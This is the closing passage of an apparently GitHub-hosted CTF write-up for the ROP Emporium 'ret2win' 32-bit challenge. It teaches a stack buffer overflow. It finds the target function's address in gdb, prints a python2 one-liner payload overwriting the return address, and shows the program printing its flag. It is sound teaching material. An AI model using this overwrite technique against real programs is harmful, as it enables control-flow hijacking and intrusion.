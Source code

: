 #### Creating the final exploit
We want to overflow the stack **just** enough so that afterwards we can overwrite the return address stored in the **EIP** with the address of the `ret2win` function.

To get the address of the `ret2win` function we can just scroll further to the output of `info function` or use gdb's `p` command if we are filling extra cool. Personally I do so here it goes (you should to! You just learnt about buffer overflows and how to exploit them :D ):

```
[ . . . ]
gdb-peda$ p ret2win
$1 = {<text variable, no debug info>} 0x804862c <ret2win>
```

Now lets exit gdb for good and craft our exploit.
Since this program is 32bit we will need to add a null byte first (`0x0804862c`) and afterwards **reverse** it. So the final address will be `0x2c860408`.

```
$ python2 -c "print('A' * 44 + '\x2c\x86\x04\x08')" | ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
zsh: done                python2 -c "print('A' * 44 + '\x2c\x86\x04\x08')" | 
zsh: segmentation fault  ./ret2win32
```

And we get the flag!!!
Now give your self some pats in the back! You are awesome :D 
I hope in this writeup you:
- Understood what a buffer overflow is
- Roughly how the execution flow of a program works
- What is the EIP and its offset
- What is the return address and why it is so important
- How to exploit the behaviour of a buffer overflow to your advantage!

If you liked this writeup please star the repository so more people can see it!